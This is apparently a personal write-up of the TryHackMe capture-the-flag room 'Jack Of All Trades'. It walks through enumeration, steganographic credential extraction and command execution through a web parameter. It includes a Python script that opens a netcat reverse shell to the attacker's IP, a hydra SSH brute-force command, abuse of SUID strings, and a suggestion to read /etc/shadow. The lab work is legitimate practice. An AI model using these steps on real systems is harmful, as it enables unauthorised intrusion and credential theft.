






# Jack Of All Trades (THM)

- https://tryhackme.com/roomjackofalltrades
- March 14, 2023
- easy

---

## Enumeration

### Nmap

```
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     http      syn-ack     Apache httpd 2.4.10 ((Debian))
80/tcp    open     ssh       syn-ack     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
```
- ports are reverse :D
- but problem is I can't open in the browser 
> there must be a way to open 22 port in browser but in this, I want to test my command line skill and try to answer only using curl and python
- let's explore from command line



- `/recovery.php` and some unknown base64 string found

```sh
$ echo 'UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==' | base64 -d
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
- `recovery.php` file



- it has a form with `user,pass,submit` value to make post request and some base decode strings
- this time, the cipher is a little tricky



- it redirects to this page - https://en.wikipedia.org/wiki/Stegosauria
- which is about dinosour (Stegosauria)
- it reminds me `stegonography` or sorry if i wrong spelling, image analysis
- is it need to do analyse image
- i found 3 images from home page and get them to local machine

```sh
$ wget http://$IP:22/assets/header.jpg
$ wget http://$IP:22/assets/stego.jpg
$ wget http://$IP:22/assets/jackinthebox.jpg
```
- extract these images with steghide and password from above

```sh
$ steghide extract -sf header.jpg      
Enter passphrase: 
wrote extracted data to "cms.creds".

$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```
- Login `recovery.php` using these credentials 
```sh
$ curl -X POST http://$IP:22/recovery.php -d "user=jackinthebox&pass=TplFxiSHjY&submit=Submit" -vv
```

```
< HTTP/1.1 302 Found
...
< Set-Cookie: PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3; path=/
...
< Set-Cookie: login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84; expires=Wed, 15-Mar-2023 20:36:37 GMT; Max-Age=172800
< location: /nnxhweOV/index.php
```
- by using these information, request to `/nnxhweOV/index.php` with that cookies

```sh
$ curl -X POST http://$IP:22/nnxhweOV/index.php -H "Cookie: PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3;login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84;" -vv
```
- response
```
GET me a 'cmd' and I'll run it for you Future-Jack.
```
- I think it is a parameter to run some linux command

```sh
$ curl -X POST http://$IP:22/nnxhweOV/index.php\?cmd\=id -H "Cookie: PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3;login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84;" -vv
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- Ok, we get remote code execution
- try to get reverse shell
- I wrote python script for easy usage

## User Access

- listen with nc at local machine and run this

```python
import requests

url = "http://10.10.20.116:22/nnxhweOV/index.php"

params = {
    "cmd": "rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f"
}

headers = {
    "Cookie": "PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3;login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84;"
}
requests.get(url, headers=headers, params=params)
```



- Get `www-data` access 
- under `/home` folder, found `jacks_password_list` file



- grep that file to local machine
- there is ssh port open and it may be ssh passwords for jack
- try to brute force with hydra
```sh
$ hydra -l jack -P pwd ssh://$IP -s 80
```
- found jack password
- enter ssh as jack 



- jack has no sudo access
- find suid and found `usr/bin/strings`
- suid `strings` can read any file
- form ctf perspective, I only try to get root flag which may exists in `/root/root.txt` folder
- user flag may be user.jpg under jack home directory and copy to local machine

```sh
$ scp -P 80 jack@<remote-ip>:user.jpg .
```

> to get root access, read the `/etc/shadow` file and copy the first line which is root password and try to crack it or find other exploits

---